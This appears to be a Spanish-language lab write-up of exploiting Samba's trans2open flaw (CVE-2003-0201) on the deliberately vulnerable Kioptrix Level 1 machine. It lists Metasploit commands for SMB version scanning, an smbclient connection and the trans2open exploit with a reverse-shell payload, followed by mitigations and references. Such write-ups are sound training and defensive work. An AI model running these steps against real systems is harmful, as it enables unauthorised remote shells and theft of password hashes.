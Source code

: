 #  Vulnerabilidad en puerto 139 / protocolo smb

### Descripción
SMB (Server Message Block) es un protocolo cliente-servidor que controla el acceso a archivos y directorios enteros, así como a otros recursos de la red, como impresoras, routers o interfaces compartidas con la red. Una vulneración a este protocolo podría significar el acceso no autorizado de un usuario y la perdida o alteración de información valiosa.

### Sistema Vulnerable
El problema fue identificado y probado en Kioptrix level 1

### Gravedad del problema
Alta

### Reproducción
Obtener  versión del protocolo smb

1. Acceder a la consola de metasploit a través del comando msfconsole en la terminal
2. Ejecutar el módulo smb_version con el comando “use auxiliary/scanner/smb/smb_version”  
3. Establecer la ip destino en RHOSTS ejecutando “set RHOSTS” más la ip de kioptrix
4. Ejecutar el comando “run” para obtener la versión del protocolo smb 

Establecer conexión con el protocolo smb

5. Modificar el archivo smb.conf agregando “client min protocol = NT1” al final del grupo global 
6. Reiniciar servicio samba ejecutando el comando “sudo service smbd restart” 
7. Establecer conexión con el comando “smbclient -L \\\\ip de kioptix\\” y presionar enter cuando solicite password 

Exploit 

8. Acceder a la consola de metasploit y buscar modulo trans2open ejecutando “search trans2open”
9.  Poner en uso el modulo trans2open ejecutando “use” más el número del módulo Linux
10. Establecer la ip destino en RHOSTS ejecutando “set RHOSTS” más la ip de kioptrix 
11. Establecer el payload con el comando “set payload linux/x86/shell_reverse_tcp
12. Ejecutar comando exploit

### Impacto
Un atacante puede abusar de la vulnerabilidad encontrada y escalar privilegios para llevar a cabo un ataque de denegación de servicio contra el sistema vulnerable, comprometiendo así la integridad del sistema. También es importante tener en cuenta que la información que se encuentra en el sistema vulnerable queda expuesta al atacante y se corre el riesgo de perderla. 


### Mitigación
- Bloquear el acceso a los puertos SMB desde redes que no sean de confianza.
- Bloquear el acceso a los puertos tcp / 445 y tcp / 139 en el perímetro de la red evitará ataques de partes que no sean de confianza. Sin embargo, esta no es una solución viable para el medio ambiente donde se necesitan servicios de archivos e impresión para usuarios legítimos.

### Referencias
- https://nvd.nist.gov/vuln/detail/CVE-2003-0201
- https://www.ionos.es/digitalguide/servidores/know-how/server-message-block-smb/


### PoC
Alcance dentro de Kioptrix

![ScreenShot](POC/infosec9.png)
![ScreenShot](POC/hash-harold.png)
![ScreenShot](POC/hash-jhon.png)
